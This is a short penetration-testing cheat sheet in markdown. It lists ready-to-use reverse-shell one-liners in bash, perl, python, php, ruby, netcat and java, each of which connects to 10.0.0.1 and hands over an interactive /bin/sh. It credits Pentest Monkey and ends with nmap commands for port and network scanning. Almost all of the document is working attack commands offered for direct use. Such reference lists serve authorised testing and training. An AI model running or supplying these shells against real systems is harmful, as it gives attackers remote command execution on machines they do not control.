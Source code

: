 # Notes Cheat sheet

## Reverse Shells

---
> bash
```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

> perl

```perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
> python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
> php
```php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
> ruby
```ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
> netcat
```
nc -e /bin/sh 10.0.0.1 1234
```
> java
```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
---
*Shells Info for Pentest Monkey*
[Pentest Monkey](http://pentestmonkey.net "Web Pentest-Monkey")

## Ports Enumeration And Network Enumeration 
---
> Nmap Scanning Ports - Port versions and scripts
```
nmap -p- --open -T5 -v -n -oG AllPorts IP

nmap -sC -sV -pPORTS -oN NmapScan IP
```
> Nmap Network Enumeration
```
nmap -sn -n YOURIP/24 -oN NetworkScan
```
---
